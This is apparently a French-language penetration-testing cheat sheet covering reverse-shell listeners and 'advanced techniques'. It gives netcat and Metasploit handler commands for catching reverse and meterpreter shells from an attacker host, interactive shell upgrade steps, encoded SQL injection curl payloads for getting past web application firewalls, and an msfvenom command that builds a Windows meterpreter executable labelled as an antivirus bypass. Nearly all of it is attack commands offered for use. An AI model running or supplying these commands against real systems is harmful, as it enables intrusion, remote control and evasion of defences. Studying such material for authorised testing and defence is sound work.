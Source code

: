 ## 🎯 Listeners et Handlers

### Netcat Listener (Simple)
```bash
# 1. Listener basique
nc -nlvp 4444

# 2. Améliorer le shell reçu
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z puis :
stty raw -echo; fg

# 3. Listener avec log
nc -nlvp 4444 | tee shell_session.log
```

### Metasploit Handler (Recommandé)
```bash
msfconsole

# 1. Handler pour reverse shell
use exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST attacker_ip
set LPORT 4444
run

# 2. Handler pour meterpreter
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
run -j  # -j pour background

# 3. Handler persistant
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
set ExitOnSession false
run -j
```

## 🔧 Techniques Avancées

### Bypass de Protections
```bash
# 1. Bypass WAF (Web Application Firewall)
# Encodage URL double
curl "http://target.com/page.php?id=1%2527%2520union%2520select%25201"

# Commentaires SQL
curl "http://target.com/page.php?id=1'/**/union/**/select/**/1"

# Case variation
curl "http://target.com/page.php?id=1'UnIoN sElEcT 1"

# 2. Bypass Antivirus
# Templates d'exploits
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe -t /usr/share/windows-binaries/plink.exe > shell.exe
```